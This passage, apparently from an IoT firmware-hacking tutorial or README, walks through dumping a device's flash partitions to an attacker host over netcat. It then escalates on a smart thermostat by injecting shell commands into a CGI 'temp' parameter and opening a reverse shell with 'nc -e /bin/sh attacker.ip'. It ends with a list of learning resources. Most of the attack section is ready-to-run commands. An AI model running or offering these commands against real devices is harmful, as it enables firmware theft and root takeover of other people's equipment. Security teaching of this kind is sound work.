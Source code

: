 ```bash
# Identify flash partitions:
cat /proc/mtd

# Dump firmware:
dd if=/dev/mtd0 | nc attacker.ip 1234

# On attacker machine:
nc -l -p 1234 > firmware.bin
```

### Workflow 3: Smart Thermostat Privilege Escalation

**Scenario:** Escalate from web user to root shell.

**Step 1: Analyze web application**

```bash
# Extract firmware, navigate to web root:
cd squashfs-root/www/

# Find authentication mechanism:
grep -r "login" *.php *.cgi
```

**Step 2: Identify command injection**

```bash
# Vulnerable CGI: /cgi-bin/settings.cgi
# Parameter "temp" is passed to system():
system("echo $QUERY_STRING > /tmp/temp.txt");

# Test injection:
curl "http://thermostat.ip/cgi-bin/settings.cgi?temp=25;id"
```

**Step 3: Gain shell**

```bash
# Reverse shell:
curl "http://thermostat.ip/cgi-bin/settings.cgi?temp=25;nc%20-e%20/bin/sh%20attacker.ip%201234"

# On attacker machine:
nc -l -p 1234
# Got root shell!
```

---

## Learning Resources

### Documentation

- **Binwalk Documentation:** https://github.com/ReFirmLabs/binwalk/wiki
- **OpenWrt Developer Guide:** https://openwrt.org/docs/guide-developer/start
- **Firmadyne Paper:** https://firmadyne.com/
- **OWASP IoT Security:** https://owasp.org/www-project-internet-of-things/
